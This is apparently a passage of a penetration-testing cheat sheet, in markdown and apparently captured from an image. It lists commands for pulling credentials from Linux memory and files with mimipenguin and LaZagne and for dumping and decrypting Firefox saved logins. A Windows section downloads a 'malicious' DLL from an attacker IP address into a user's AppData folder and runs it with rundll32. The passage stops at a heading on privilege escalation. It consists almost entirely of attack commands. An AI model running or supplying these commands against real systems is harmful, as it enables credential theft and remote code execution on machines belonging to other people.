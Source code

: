 ## Running Credential Extraction Tools (Linux)

Use tools to extract credentials from memory or files:

```bash
# Run mimipenguin
python3 mimipenguin.py
bash mimipenguin.sh

# Run lazagne
python2.7 lazagne.py all
python3 lazagne.py browsers
```

## Extracting Firefox Credentials (Linux)

Retrieve credentials stored by Firefox:

```bash
# List Firefox profiles
ls -l .mozilla/firefox/ | grep default

# Display Firefox credentials
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

# Decrypt Firefox credentials
python3.9 firefox_decrypt.py
```

## Windows-Specific Commands

### Reviewing Environment Variables

Check the PATH variable for potential misconfigurations:

```powershell
cmd /c echo %PATH%
```

### Downloading and Executing Files

Download and execute malicious files:

```powershell
# Download DLL
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

# Execute DLL
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

### Privilege Escalation Checks
